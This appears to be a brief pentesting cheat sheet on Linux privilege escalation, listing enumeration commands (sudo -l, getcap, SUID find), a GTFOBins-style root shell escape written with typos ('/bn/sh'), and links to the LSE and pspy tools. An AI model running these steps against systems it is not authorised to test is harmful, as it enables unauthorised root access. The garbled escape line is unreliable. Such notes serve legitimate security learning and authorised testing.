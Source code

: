 # Privilege Escalation

First, let's check the Linux version with the following command:

```shell
lsb_release -a
```

## Privilege Escalation using sudo -l
We try executing the following instruction to check which files we can run as root:

```shell
sudo -l
```

From there, we can search for the folder and the exploit that uses it to establish a reverse shell.

## Basic Privilege Escalation using CAPABILITIES

```shell
getcap -r / 2>/dev/null
```

This lists the packages or services that we can execute as root.

```shell 
#Ejemplo
/usr/bin/perl = cap_setuid+ep
```

## Privilege Escalation using Binaries

We search for files that we can execute as root with the current user:

```shell
find / -perm -4000 2>/dev/null
```

We consult the binary in GTFobins and look for any binary that we can execute with SUID permissions.
The exploit needs to use the full path.

```shell
usr/bin/env /bn/sh -p 
```

## Tools

### LSE (Linux Smart Enumeration): 
LSE is an enumeration tool for Linux systems that allows attackers to obtain detailed information about system configuration, running services, and file permissions. LSE uses a variety of Linux commands to gather information and present it in an easy-to-understand format. By using LSE, attackers can detect potential vulnerabilities and find valuable information for future attacks.

### Pspy: 
Pspy is a process enumeration tool that allows attackers to observe processes and commands running on the target system at regular time intervals. Pspy is a useful tool for detecting malware and backdoors, as well as identifying malicious processes running in the background without user interaction.


Herramienta LSE: https://github.com/diego-treitos/linux-smart-enumeration
Herramienta PSPY: https://github.com/DominicBreuker/pspy